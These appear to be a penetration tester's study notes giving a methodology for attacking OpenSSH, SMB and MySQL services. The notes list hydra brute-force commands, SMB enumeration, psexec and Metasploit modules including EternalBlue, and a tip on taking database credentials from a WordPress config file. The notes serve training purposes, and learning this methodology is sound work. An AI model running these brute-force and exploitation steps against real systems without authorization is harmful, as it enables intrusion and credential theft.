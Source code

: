### Targeting OpenSSH ###

#### Methodology ####
+ Should use any previous passwords found to test if there is password sharing 
+ Brute-forcing with <mark style="background: #D2B3FFA6;">hydra</mark>:
	+ `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <IP> ssh`
+ Can login with ssh 
	+ `ssh USER@<IP>`
	+ Can now do `whoami` 
	+ Will use `bash` to get a command prompt 
		+ Can do `localgroup` and `whoami /priv`
+ Can change the ssh to a <mark style="background: #FF5582A6;">meterpreter</mark> session 
	+ `ssh_login` module will do that
	+ Then can do session -u 1
	+ Can also download the meterpreter to that system and run it

### Targeting SMB ###

#### Methodology ####
+ Brute-forcing with <mark style="background: #D2B3FFA6;">hydra</mark>:
	+ `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <IP> 
+ Authenticate to SMB with <mark style="background: #FFF3A3A6;">smbclient</mark> with user and password
	+ `smbclient -L <IP> -U <USER>`
+ Enumerate shares with <mark style="background: #FFF3A3A6;">smbmap</mark> 
	+ `smbmap -u <USER> -p <PASSWORD> -H <IP>`
+ Enumerate other user accounts with credentials we already have using <mark style="background: #FFF3A3A6;">enum4linux</mark> 
	+ `enum4linux -u <USER> -p <PASSWORD> -U <IP>`
	+ Can also use the <mark style="background: #FF5582A6;">metasploit</mark> module `smb_enumusers` 
+ Authenticate to a SMB system remotely with legitimate credentials using <mark style="background: #FFF3A3A6;">psexec</mark>
	+ `python3 psexec.py <USER>@<IP>`
	+ Can also use the <mark style="background: #FF5582A6;">metasploit</mark> module `psexec` , to get a meterpreter session 
+ On metasploit, can also use the <mark style="background: #ADCCFFA6;">ms17_010_eternalblue</mark> module if the machine is vulnerable 
	+ Will get elevated privileges quickly 

### Targeting MySQL Database Server ###

#### Methodology ####
+ 3306 is the default MySQL port
+ Can brute-force with hydra, but can also use the <mark style="background: #FF5582A6;">metasploit</mark> module `mysql_login` 
+ Can login to the server using:
	+ `mysql -u root -p -h <IP>`
+ Once logged in, can enumerate 
	+ `show databases;`
		+ Might show a database related to to websites as well
+ Can also get the mysql credentials in the Wordpress config file if it is connected to Wordpress and there is access on the machine 
	+ Any changes to a WAMP or Wordpress will require a restart:
		+ `net stop SERVICE`, then `net start SERVICE`
